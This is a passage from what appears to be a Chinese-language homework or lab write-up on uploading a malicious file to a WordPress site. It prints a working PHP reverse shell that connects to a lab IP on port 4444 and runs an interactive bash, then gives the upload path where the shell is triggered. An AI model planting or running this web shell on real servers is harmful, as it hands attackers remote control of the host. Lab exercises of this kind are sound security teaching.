    ![1747890605964](image/homework/1747890605964.png)
   - 木马文件内容如下：
        ```php
        <?php
        $sock = fsockopen("192.168.168.10", 4444);
        $proc = proc_open("bash -i", array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
        ?>
        ```
        ![1747890820999](image/homework/1747890820999.png)
2. **验证木马执行**
   - 上传成功后，访问 `/wp-content/uploads/<year>/<month>/c.php`。